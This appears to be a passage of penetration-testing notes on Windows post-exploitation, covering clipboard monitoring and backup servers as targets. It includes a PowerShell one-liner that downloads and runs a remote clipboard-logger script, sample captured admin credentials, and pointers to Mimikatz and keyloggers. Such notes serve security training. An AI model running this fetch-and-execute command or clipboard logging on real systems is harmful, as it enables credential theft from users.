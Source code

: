 ## Clipboard

### Monitor the Clipboard with PowerShell

https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```

--> User credentials can be obtained with tools such as Mimikatz or a keylogger. C2 Frameworks such as Metasploit contain built-in functions for keylogging.

## Roles and Services

Typical server roles and services include:

- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers

### Attacking Backup Servers

https://restic.net/

Restic is a modern backup program that can back up files in Linux, BSD, Mac, and Windows.

https://github.com/restic/restic/releases/latest

#### restic - Initialize Backup Directory

```
mkdir E:\restic2; restic.exe -r E:\restic2 init

    Directory: E:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          8/9/2022   2:16 PM                restic2
enter password for new repository:
enter password again:
created restic repository fdb2e6dd1d at E:\restic2

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```
